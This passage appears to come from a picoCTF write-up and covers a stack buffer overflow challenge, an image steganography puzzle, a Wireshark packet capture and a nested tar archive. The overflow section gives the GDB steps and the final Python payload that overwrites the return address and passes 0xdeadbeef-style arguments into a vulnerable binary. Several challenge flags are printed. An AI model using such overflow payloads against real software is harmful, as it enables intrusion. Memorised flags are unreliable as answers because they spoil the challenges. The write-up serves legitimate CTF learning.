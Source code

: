     picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5fe1ff3d8}
(BTW if you try to edit this locally, you can use the `touch flag.txt` command to get rid of the error message)


### Overflow 2 
Use the same method as Oveflow 1 to steer program execution to the flag function.
I achieved it by using this as program input: ` python -c "print 'A'*176 + 'BBBBCCCCDDDD' + '\x36\x85\x04\x08'"`
This time we need to add function arguments. In GDB, I used the command `disas flag` to disassemble the flag function.
On line <flag+100>, this assembly is run `cmp    DWORD PTR [ebp+0x8], 0xdeadbeef`
From here I know that the first compared argument, 0xdeadbeef, is stored at ebp+0x8 (and two lines down tells me the next argument is stored in ebp+c) 
Looking at the register values with command `info register` I see that ebp points to a place not much farther in memory than esp, so I modify my input as follows to see what happens: `python -c "print 'A'*176 + 'BBBBCCCCDDDD' + '\xe6\x85\x04\x08' + 'AAAABBBBDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP'"`
When I run gdb again with a breakpoint set in the flag function, I can examine the value [ebp+0x8] with the command `x/wx $ebp+0x8` and see that it is 0x42424242 which corresponds to hex BBBB
After some finagling of my input and examing with GDB, I make the final payload and submit it to the vulnerable program on the shell server with the following command:
`python -c "print 'A'*176+'BBBBCCCCDDDD'+'\xe6\x85\x04\x08'+'AAAA'+'\xEF\xBE\xAD\xDE'+'\x0D\xD0\xDE\xC0'" | ./vuln`

### What Lies Within (150 points) 
Download the buildings.png 
I tried to do saturation and all that jazz but that did not work so I looked up steganography stuff and I found this website
Then I uploaded the image and got this:

Flag is: picoCTF{h1d1ng_1n_th3_b1t5}


### shark on wire 1 - Points: 150 
1.      Opened pcap file in wireshark
2.      Filtered by udp

3.      Ordered by destination IP
4.      You will notice 10.0.0.12 has a data length of 1 byte, each byte containing a character.

5.      Going through these packets gives you the flag picoCTF
6.      There is also a false flag to the ip 10.0.0.13 That contains the string N0t_a_fLag
 


### Like1000
Given a file: 1000.tar, untarring recursively gives the files 999.tar, 998.tar, etc…
Write a bash script!

#!/bin/bash
for i in {1000..1}
do
    tar -xvf ./$i.tar
Done
Execute the bash script and open the last tar file to get a png file with the flag.

